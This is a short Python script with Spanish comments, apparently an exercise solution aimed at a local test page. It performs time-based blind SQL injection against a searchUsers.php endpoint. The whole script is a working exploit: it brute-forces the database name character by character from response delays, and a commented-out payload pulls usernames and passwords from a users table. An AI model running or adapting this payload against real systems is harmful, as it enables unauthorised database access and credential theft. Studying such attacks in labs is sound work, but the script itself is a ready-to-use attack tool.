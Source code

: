 ```python 
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
characters = string.printable

def MakeSQLI():
    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando fuerza bruta")
    time.sleep(2)
    p2 = log.progress("Datos extraidos")
    extrated_info = ""

    for position in range(1, 150):
        for character in range(33, 126): # El 1 de abajo es un valor que si existe
            sqli_url = main_url + "?id=1 and if(ascii(substr(database(),%d,1))=%d,sleep(0.35),1)" % (position, character)
           #sqli_url = main_url + "?id=1 and if(ascii(substr((select group_concat(username,0x3a,password) from users),%d,1))=%d,sleep(0.35),1)" % (position, character)
            p1.status(sqli_url)
            time_start = time.time()
            r = requests.get(sqli_url)
            time_end = time.time()
            if time_end - time_start > 0.35:
                extrated_info += chr(character)
                p2.status(extrated_info)
                break

if __name__ == '__main__':
    MakeSQLI()
```



